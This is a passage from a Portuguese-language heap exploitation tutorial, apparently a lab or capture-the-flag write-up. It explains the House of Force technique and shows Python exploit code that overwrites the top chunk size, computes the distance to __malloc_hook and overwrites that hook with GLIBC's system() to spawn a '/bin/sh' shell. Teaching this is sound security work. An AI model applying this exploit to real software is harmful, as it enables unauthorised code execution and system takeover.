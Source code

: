 A `man page` da função `system()`, nos mostra que é uma função simples que leva somente um argumento, uma *string* que aponta para um comando do *shell*, conforme imagem abaixo.

![Man page system](/img/papers/heap_p1/paper_heap1_72.png)

Portanto se redirecionarmos o fluxo de execução para a função `system()` da GLIBC, e passar o endereço da string "`/bin/sh`" como argumento, este processo nos dará uma `shell`.

Então, de volta ao script, no lugar dos bytes `0xdeadbeef`, vamos passar o endereço da nossa função `system()` de dentro da GLIBC. O bloco ficou desta forma:

```py
#===============EXPLOITING================#

# sobrescrevendo o top chunk size field
malloc(24, b"A" * 24 + p64(0xffffffffffffffff))

# calculando distancia entre a __malloc_hook e o top chunk
distance = (libc.sym.__malloc_hook - 0x20) - (heap + 0x20)

# solicitando um chunk do tamanho da distancia e preenchendo
malloc(distance, b"A")

# sobrescrevendo a malloc hook
malloc(24, p64(libc.sym.system))
#=========================================#
```

Além disso, qualquer argumento passado para a `malloc()` também será passado para `system()`. Isso significa que podemos "mascarar" o endereço da nossa string "/bin/sh" até mesmo como tamanho da nossa requisição ("size" na execução do programa).
